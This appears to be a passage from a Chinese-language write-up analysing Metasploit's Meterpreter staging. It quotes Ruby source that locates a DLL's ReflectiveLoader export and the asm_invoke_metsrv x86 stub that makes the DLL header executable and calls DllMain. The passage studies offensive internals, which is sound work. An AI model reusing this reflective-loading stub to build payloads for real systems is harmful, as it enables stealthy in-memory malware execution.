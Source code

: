 ```ruby
    pe = Rex::PeParsey::Pe.new(Rex::ImageSource::Memory.new(dll))
    offset = nil

    pe.exports.entries.each do |e|
      if e.name =~ /^\S*ReflectiveLoader\S*/
        offset = pe.rva_to_file_offset(e.rva)
        break
      end
    end

    offset
  end
```

甚至我们不用深究这些函数的具体流程，看名称就知道，这个是从dll导出表找到了ReflectiveLoader导出函数的地址

然后进入 `asm_invoke_metsrv` 看看

```ruby
  def asm_invoke_metsrv(opts={})
    asm = %Q^
        ; prologue
          dec ebp               ; 'M'
          pop edx               ; 'Z'
          call $+5              ; call next instruction
          pop ebx               ; get the current location (+7 bytes)
          push edx              ; restore edx
          inc ebp               ; restore ebp
          push ebp              ; save ebp for later
          mov ebp, esp          ; set up a new stack frame
        ; Invoke ReflectiveLoader()
          ; add the offset to ReflectiveLoader() (0x????????)
          add ebx, #{"0x%.8x" % (opts[:rdi_offset] - 7)}
          call ebx              ; invoke ReflectiveLoader()
        ; Invoke DllMain(hInstance, DLL_METASPLOIT_ATTACH, config_ptr)
          ; offset from ReflectiveLoader() to the end of the DLL
          add ebx, #{"0x%.8x" % (opts[:length] - opts[:rdi_offset])}
    ^

    unless opts[:stageless] || opts[:force_write_handle] == true
      asm << %Q^
          mov [ebx], edi        ; write the current socket/handle to the config
      ^
    end

    asm << %Q^
          push ebx              ; push the pointer to the configuration start
          push 4                ; indicate that we have attached
          push eax              ; push some arbitrary value for hInstance
          call eax              ; call DllMain(hInstance, DLL_METASPLOIT_ATTACH, config_ptr)
    ^
  end
```
